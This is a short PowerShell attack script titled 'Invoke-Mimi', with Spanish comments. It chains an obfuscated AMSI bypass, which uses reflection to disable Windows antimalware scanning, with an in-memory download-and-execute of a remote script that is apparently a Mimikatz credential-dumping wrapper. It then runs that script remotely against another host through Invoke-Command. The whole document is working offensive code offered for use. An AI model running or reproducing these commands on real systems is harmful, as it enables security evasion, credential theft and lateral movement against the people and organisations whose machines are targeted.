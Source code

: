# Invoke-Mimi
#By Luis Carreto


#Evasion de AMSI

$A="5492868772801748688168747280728187173688878280688776828"

$B="1173680867656877679866880867644817687416876797271"

[Ref].Assembly.GetType([string](0..37|%{[char][int](29+($A+$B).substring(($_*2),2))})-replace " " ).GetField([string](38..51|%{[char][int](29+($A+$B).substring(($_*2),2))})-replace " ",'NonPublic,Static')."sE`T`VaLUE"(         ${n`ULl},${t`RuE} )


#Ejecucion en memoria

iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dr0pc/Invoke-Mimi/main/Invoke-Mimi.ps1')


#Ejecucion remota por PSSession

Invoke-Command -ScriptBlock  {AmsiBypass} ; & ${function:invoke-mimi} -ComputerName computer-name
